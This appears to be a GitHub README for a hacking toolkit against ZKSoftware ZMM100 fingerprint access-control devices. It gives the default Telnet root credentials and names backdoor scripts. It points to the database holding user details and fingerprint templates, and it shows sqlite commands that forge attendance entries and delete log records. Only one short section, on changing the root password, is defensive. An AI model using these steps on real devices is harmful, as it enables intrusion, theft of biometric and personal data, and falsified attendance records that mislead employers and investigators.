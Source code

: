 # Hacking Embedded Devices :

```
Hardware platform ZMM100 :
The fingerprint access control device Made by ZKSoftware.
```

* - Default User/Password : __root:solokey__
- Protocol : Telnet (23).

## Scripts :
 * __pwnit.py__ : Automated tool for hacking devices.
 * __hell__ : second backdoor.
 * __leak-data.sh__ : third backdoor.
 
 
 
## YouTube Video :

![image alt text](https://i.imgur.com/lxZCj4Z.png)
[https://www.youtube.com/watch?v=Zd1N0CbvR0k](https://www.youtube.com/watch?v=Zd1N0CbvR0k&feature=youtu.be)

## Change root password :

```
passwd
{ enter new root password }
cp /etc/passwd /mnt/mtdblock
cp /etc/passwd /mnt/mtdblock/data/
```

## More Info :

```
This directory "mnt/ramdisk" contains : picture.jpg , finger.bmp.
Web directory  "/mnt/mtdblock/service/webserver" contains : some shitty csl web files lol.
Database here : "/mnt/mtdblock/data/ZKDB.db"
Important tables : "ATT_LOGS" ( user logs ) , "USER_INFO" ( user informations ) , "fptemplate10"  ( finger print data ).
-- https://i.imgur.com/yNfVNSH.png ( ATT_LOGS ).
-- https://i.imgur.com/ujiIqzf.png ( USER_INFO ).
-- https://i.imgur.com/ilGwFZB.png ( fptemplate10 ).

> https://github.com/adrobinoga/zk-protocol/blob/master/sections/data-user.md#example-of-a-template-entry
SQLite ELF File : "/mnt/mtdblock/data/sqlite3_arm" --> ./sqlite3_arm ZKDB.db;

```

### Insert / Delete DATA :

>- Insert : ./sqlite3_arm ZKDB.db "INSERT INTO ATT_LOG VALUES (null,__'1224__,15,__'2019-04-12T00:00:00'__,'0','0',null,null,null,null,0);"

>- Delete log : ./sqlite3_arm ZKDB.db "DELETE FROM ATT_LOG WHERE ID = __1224__;"

- Shit its amazing 3:) !


 #### References :
https://blog.infobytesec.com/2014/07/perverting-embedded-devices-zksoftware_2920.html
https://github.com/linsir/pyscripts/tree/master/zkteco_check_in
